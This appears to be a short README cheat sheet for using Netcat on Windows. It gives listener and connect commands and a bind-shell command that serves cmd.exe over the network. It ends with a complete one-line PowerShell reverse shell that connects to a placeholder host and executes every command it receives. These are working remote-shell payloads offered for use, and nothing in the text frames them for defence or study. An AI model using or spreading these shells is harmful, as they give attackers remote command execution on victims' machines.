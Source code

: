 # Netcat

### Netcat download: https://eternallybored.org/misc/netcat/

Into your CMD to listen:
1. ``cd C:\Users\De Lucca\Downloads\netcat-win32-1.12`` => Path where your extracted netcat file is
2. ``nc.exe -lvp [Port]`` => Listen, Verbose, Port

Into your CMD to listen while executing CMD:
1. ``nc.exe -lvp [Port] -e "cmd.exe"``

Into your CMD to connect:
1. ``cd C:\Users\De Lucca\Downloads\netcat-win32-1.12`` => Path where your extracted netcat file is
2. ``nc.exe [IP] [Port]``

Into Powershell: <br>
``$sm=(New-Object Net.Sockets.TCPClient("HOST_IP_ADDRESS",port)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}``

Powershell extension: ``.ps1``
